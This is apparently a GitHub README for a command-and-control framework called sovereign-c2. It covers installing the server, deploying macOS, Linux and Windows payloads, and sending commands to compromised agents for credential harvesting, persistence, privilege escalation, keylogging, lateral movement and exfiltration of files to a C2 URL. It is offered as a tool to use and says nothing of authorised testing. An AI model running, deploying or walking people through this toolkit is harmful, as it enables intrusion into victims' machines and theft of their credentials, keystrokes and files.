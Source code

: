 This is the start of a c2 server and client (currently windows) deployment. It's from our community as a whole. More functionality to follow in due course. 

# Installation and Setup

Clone the Repository git clone https://github.com/4lph4-01/share

Create a Virtual Environment python -m venv venv within the sovereign-c2 directory

source venv/bin/activate (in a new terminal #source venv/bin/activate). Results of the initial supported powershell commands sent will output to the check-in terminal window. 

On Windows, use venv\Scripts\activate

Install Dependencies pip install -r requirements.txt

Prepare Payloads (If necessary) Ensure your payload scripts are in the payloads directory:
    payloads/macos_payload.sh (Work in progress)
    payloads/linux_payload.sh (Work in progress)
    payloads/windows_payload.ps1 (Work in progress)

Running the C2 Server

python c2_server.py CLI Usage

List Agents python cli/cli.py list-agents

Deploy Payload python cli/cli.py deploy-payload <agent_type> Replace <agent_type> with macos, linux, or windows.

Select and Send Commands to an Agent python cli/cli.py select-agent You can specify the agent ID directly or choose from a list of available agents.

Generate Report python cli/cli.py generate-report

Send a Specific Command python cli/cli.py send-command <agent_id>

Supported Commands

Credential Harvesting python cli/cli.py send-command <agent_id> cred_harvest

Persistence python cli/cli.py send-command <agent_id> persistence

Privilege Escalation python cli/cli.py send-command <agent_id> priv_escalation

Reconnaissance python cli/cli.py send-command <agent_id> reconnaissance

Data Exfiltration python cli/cli.py send-command <agent_id> exfiltrate <file_path> <c2_url> Replace <file_path> and <c2_url> with the actual file path and C2 URL.

Keylogging python cli/cli.py send-command <agent_id> keylogging

Lateral Movement python cli/cli.py send-command <agent_id> lateral_movement Modules Directory Structure Ensure you have a modules directory with the following structure and content: modules/ cred_harvest.py persistence.py priv_escalation.py reconnaissance.py exfiltration.py keylogging.py lateral_movement.py

# By the way, we own things.....
